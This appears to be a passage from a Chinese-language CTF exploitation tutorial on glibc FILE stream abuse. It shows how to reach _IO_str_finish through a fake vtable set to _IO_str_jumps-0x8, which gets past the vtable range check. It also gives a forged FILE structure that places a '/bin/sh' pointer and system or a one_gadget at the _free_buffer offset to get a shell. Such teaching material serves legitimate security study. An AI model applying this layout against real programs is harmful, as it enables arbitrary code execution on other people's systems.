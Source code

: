 ------

在`_IO_str_jumps`中的`_IO_str_finish`也可以利用。

```c
void
_IO_str_finish (_IO_FILE *fp, int dummy)
{
  if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))
    (((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base);  //[fp+0xe8]
  fp->_IO_buf_base = NULL;

  _IO_default_finish (fp, 0);
}
```

同样也是对其中函数指针的利用

```c
(((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base);  //[fp+0xe8]
```

绕过条件：

1. _IO_buf_base 不为空
2. _flags & _IO_USER_BUF(0x01) 为假，即flag字段不包含IO_USER_BUF

现在要让程序执行 `_IO_str_finish` ，`fclose(fp)` 是一条路，但似乎有局限。还是回到异常处理的方法，在 `_IO_flush_all_lockp` 函数中是通过 `_IO_OVERFLOW` 执行的 `__GI__IO_str_overflow`，而 `_IO_OVERFLOW` 是根据 `__overflow` 相对于 `_IO_str_jumps` vtable 的偏移找到具体函数的。所以如果我们伪造传递给 `_IO_OVERFLOW(fp)` 的 fp 是 vtable 的地址减去 0x8，那么根据偏移，程序将找到 `_IO_str_finish` 并执行。

也就是说，如果设置的vtable是`_IO_str_jumps-0x8`，那么在`vtable+0x18`的位置就是 `_IO_str_finish`（原本应该是 `_IO_str_overflow`），这样就可以通过 `_IO_flush_all_lockp`执行到 `_IO_str_finish`，而且由于这个vtable在合法范围内，因此能过检测。

不过我们也要绕过 `_IO_flush_all_lockp`的一些条件

1. `fp->_mode<=0`
2. `fp->_IO_write_ptr > fp->_IO_write_base`

构造如下：

```c
._chain => chunk_addr
chunk_addr
{
  file = {
    _flags = 0x0,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1,
    _IO_write_end = 0x0,
    _IO_buf_base = bin_sh_addr,
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = _IO_str_jumps-8 //chunk_addr + 0xd8 ~ +0xe0 (2.24之前可以)
}
+0xe0 ~ +0xe8 : 0x0
+0xe8 ~ +0xf0 : system_addr / one_gadget //fp->_s._free_buffer
```
